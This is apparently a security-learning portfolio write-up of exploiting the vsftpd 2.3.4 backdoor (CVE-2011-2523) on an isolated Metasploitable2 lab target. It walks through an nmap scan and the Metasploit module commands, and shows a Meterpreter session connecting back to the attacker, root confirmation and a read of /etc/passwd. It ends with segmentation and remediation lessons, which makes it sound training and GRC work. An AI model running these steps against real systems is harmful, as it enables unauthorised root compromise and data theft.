



# Exploitation Case Study — vsftpd 2.3.4 Backdoor (CVE-2011-2523)

## Objective

Building on the earlier audit and incident-response case studies, this project moves from documentation-only GRC work into hands-on offensive testing: identifying a live vulnerability on a target system, exploiting it, and documenting the full chain from reconnaissance to proof of impact. The target was Metasploitable2, an intentionally vulnerable Linux system, running in an isolated home lab with no internet-facing exposure.

## Lab Environment

- **Attacker machine:** Kali Linux (VirtualBox), isolated Host-only network
- **Target:** Metasploitable2 (VirtualBox), isolated Host-only network, no NAT/internet access
- **Network:** 192.168.56.0/24, host-only — no path to the internet or any production system

## Process

### 1. Reconnaissance

Ran an Nmap scan against the target to enumerate open ports and identify running service versions:

```
nmap -sV -sC 192.168.56.102
```

The scan returned 23 open ports, most running deliberately outdated software versions. One entry stood out immediately: **port 21 running vsftpd 2.3.4** — a version with a well-documented, publicly known vulnerability.

Full raw scan output: [nmap_scan.txt](./nmap_scan.txt)



### 2. Vulnerability Identification

vsftpd 2.3.4 contains a backdoor (CVE-2011-2523) that was maliciously inserted into the software's source code by a third party between June 30 and July 1, 2011, before being discovered and removed. Any server still running this specific version can be triggered into opening a root shell on port 6200 by sending a crafted username containing a specific character sequence during the FTP login sequence.

This vulnerability was chosen deliberately over the other 22 open services as the first exploitation target: it is simple, reliably reproducible, and requires no chained exploits or privilege escalation — making it a clean, well-scoped case study of the full attack lifecycle rather than a partial or ambiguous result.

### 3. Exploitation

Using Metasploit Framework:

```
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.56.102
set LHOST 192.168.56.103
run
```

The module confirmed the vulnerable banner, spawned the backdoor, and opened a Meterpreter session automatically:

```
[+] 192.168.56.102:21 - The target appears to be vulnerable. vsftpd 2.3.4 banner detected; backdoor may be present
[*] Meterpreter session 1 opened (192.168.56.103:4444 -> 192.168.56.102:44634)
```



### 4. Proof of Impact

Confirmed the access level obtained:

```
meterpreter > getuid
Server username: root
```

Dropped into a full system shell and gathered further evidence:

```
whoami        -> root
id            -> uid=0(root) gid=0(root)
uname -a      -> Linux metasploitable 2.6.24-16-server ... i686 GNU/Linux
```

Confirmed the level of exposure by reading the full system user list — a file that should require elevated privileges to enumerate in full:

```
cat /etc/passwd
```

This returned every account on the system, including service accounts (mysql, postgres, ftp) and the default `msfadmin` user — demonstrating that this single unpatched service gave complete, unrestricted root access to the entire machine, not just a limited foothold.



## Key Finding

A single outdated, internet-facing service (FTP) with no direct connection to sensitive data still resulted in full root compromise of the entire host. This illustrates a core GRC principle from a technical angle: risk from a single vulnerable service is not contained to that service — vsftpd itself doesn't touch the MySQL database or the web application running on the same box, but root access via vsftpd exposes all of it. This is the practical justification behind controls like network segmentation and least-privilege service accounts covered in the earlier Botium Toys audit — without them, one weak link compromises everything on the same host.

## What I'd Do Differently

I'd extend this exercise into a full remediation writeup: patching or removing the vulnerable vsftpd version, then re-running the same Nmap scan to confirm the vulnerability is closed — showing the before/after state rather than stopping at exploitation. I'd also want to test whether network segmentation (isolating the FTP service from the database and application services) would have limited the blast radius even if the vsftpd exploit still succeeded, since that's the more realistic long-term control than hoping every service stays patched.

## Tools & Concepts

Nmap · Metasploit Framework · Meterpreter · CVE-2011-2523 · vsftpd backdoor · Privilege escalation impact analysis · Network segmentation (as a mitigating control)
